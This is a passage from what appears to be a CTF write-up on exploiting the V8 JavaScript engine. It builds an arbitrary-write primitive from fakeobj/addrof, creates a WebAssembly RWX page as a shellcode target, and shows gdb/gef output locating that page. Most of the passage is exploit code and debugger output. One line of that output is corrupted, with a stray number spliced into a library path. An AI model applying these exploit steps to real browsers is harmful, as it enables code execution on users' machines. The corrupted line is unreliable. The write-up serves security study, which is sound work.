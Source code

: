 
Just like the arbitrary read, we will use the `fakeobj` and `addrof` to write to a memory location. What we will do here is we inject a fake object i.e. `rw_helper` array's address then we make the 1st index of the `rw_helper` pointing to the address we want to write to. then we do `fake[0] = val`, we will write the value to the address pointed by the `fake`'s 0th index.

For now, let's create a function named `arb_write` which is based on the logic above:-

```js
function arb_write(addr, value) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    fake[0] = itof(value, 64);
}
```

# Shellcode and Profit

Although, because of the pointer compression we can't just directly write to any hook functions and just let it be called, because of the pointer compression we can only write to the heap addresspace but as suggest on the article that I linked earlier, it is mentioned that we can create a WebAssembly Page which is by default marked as `RWX` which is perfect candidate for the shellcode. If we create a wasm function whose address can be leaked somehow then we can write shellcode to it with the `arb_write` and then execute the function, we will create one with some garbage data which doesn't even matter as long as it creates a `RWX` page. Now, what we will do from here is to first create a `RWX` page then find it via `gef`, the best way as I have learned from the other writeups is use `debug` version of `d8` and then find it with some trial and error:-

Let's create a wasm function first and see the base address of the `RWX` page via `vmmap`, add the following lines of code to the `xpl.js`:-
```js

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,
                               130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,
                               128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,
                               128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,
                               0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasm_module = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_module);
var pwn = wasm_instance.exports.main;
```

Now, let's run it with the debug version of `d8` that we **build**:-

```asm
gef➤  r --shell --allow-natives-syntax ~/CTFs/xpl.js 
Starting program: /home/d4mian/Pwning/v8/out.gn/x64.debug/d8 --shell --allow-natives-syntax ~/CTFs/wasm.js
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/l9221120237041090560nibthread_db.so.1".
[New Thread 0x7ffff2063700 (LWP 4436)]
V8 version 8.7.0 (candidate)
d8> ^C
Thread 1 "d8" received signal SIGINT, Interrupt.

-- snip -- 
gef➤ vmmap

-- snip --

0x0000379395694000 0x0000379395695000 0x0000000000000000 rwx 
0x0000555555554000 0x00005555555e4000 0x0000000000000000 r-- /home/d4mian/Pwning/v8/out.gn/x64.debug/d8
0x00005555555e4000 0x000055555565e000 0x000000000008f000 r-x /home/d4mian/Pwning/v8/out.gn/x64.debug/d8
0x000055555565e000 0x0000555555661000 0x0000000000108000 r-- /home/d4mian/Pwning/v8/out.gn/x64.debug/d8
```